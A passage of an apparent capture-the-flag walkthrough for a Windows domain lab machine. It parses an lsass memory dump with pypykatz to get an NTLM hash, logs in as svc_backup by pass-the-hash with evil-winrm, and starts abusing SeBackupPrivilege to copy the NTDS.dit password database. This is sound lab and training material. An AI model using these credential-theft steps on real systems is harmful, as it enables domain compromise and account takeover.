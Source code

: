 ![](https://i.ibb.co/0KDBhjQ/forensics.png)

* and here is the lsass.ZIP file.

![](https://i.ibb.co/fqV5ywg/lsasszipfile.png)


> after unzipping the file i got lsass.DMP file, we will extract NTLM hash from it by pypykatz, or you can use mimikatz.

* read this blogs, [pypykatz](https://www.stevencampbell.info/Parsing-Creds-From-Lsass.exe-Dumps-Using-Pypykatz/), [mimikatz](https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf)

> **pypykatz lsa minidump lsass.DMP -o lsass.txt**

![](https://i.ibb.co/s29ksq7/svc-backup.png)

* nice!, now we have the **NTLM** hash for the **svc_backup** user, let's login with it now.

> **evil-winrm -i 10.10.10.192 -u svc_backup -H "9658d1d1dcd9250115e2205d9f48400d"**

![](https://i.ibb.co/93B0zJ5/svc-flag.png)

* nice!, let's got to the root now.

# []()Privilege Escalation

* let's check our privileges first.

> **whoami /priv**

```ruby

*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```

> **SeBackupPrivilege             Back up files and directories  Enabled**

* we can backup the data since svc_backup had this privileges.

> as we no this is AD machine so we will backup the NTDS.dit file and the registry file system.

_The Ntds.dit file is a database that stores Active Directory data, including information about user objects, groups, and group membership. It includes the password hashes for all users in the domain._
